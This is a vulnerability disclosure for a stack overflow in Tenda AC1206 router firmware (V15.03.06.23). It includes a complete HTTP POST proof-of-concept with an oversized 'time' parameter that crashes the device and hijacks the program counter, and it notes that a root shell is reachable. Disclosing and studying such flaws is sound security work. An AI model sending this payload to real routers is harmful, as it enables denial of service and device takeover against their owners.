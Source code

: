 #  Tenda AC1206 (V15.03.06.23) has a stack overflow vulnerability

## Overview

- Manufacturer's website information：https://www.tenda.com.cn
- Firmware download address ： https://www.tenda.com.cn/download/detail-2766.html

### Product Information

Tenda AC1206 V15.03.06.23, the latest version of simulation overview：

![image-20220724213031606](img/image-20220724213031606.png)

## Vulnerability details

The Tenda AC1206 (V15.03.06.23) was found to have a stack overflow vulnerability in the setSmartPowerManagement function. An attacker can obtain a stable root shell through a carefully constructed payload.

![image-20220804202859967](img/image-20220804202859967.png)

In the `setSmartPowerManagement` function,`time`(the value of `time`) we entered is formatted using the `sscanf` function and in the form of `%[^:]:%[^-]-%[^:]:%s`. This greedy matching mechanism is not secure, as long as the size of the data we enter is larger than the size of `hour_start`、`min_start`、`hour_end` or `min_end`, it will cause a stack overflow.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/PowerSaveSet HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded;
Content-Length: 12
Origin: http://192.168.0.1
DNT: 1
Connection: close
Referer: http://192.168.0.1/index.html
Cookie: ecos_pw=eee:language=cn

time=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:aaaa-bbb:1
```

![image-20220804202006797](img/image-20220804202006797.png)

 By sending this poc, we can achieve the effect of a denial-of-service(DOS) attack .

![image-20220804235435725](img/image-20220804235435725.png)

As shown in the figure above, we can hijack PC registers.

![image-20220724220055672](img/image-20220724220055672.png)

Finally, you also can write exp to get a stable root shell.

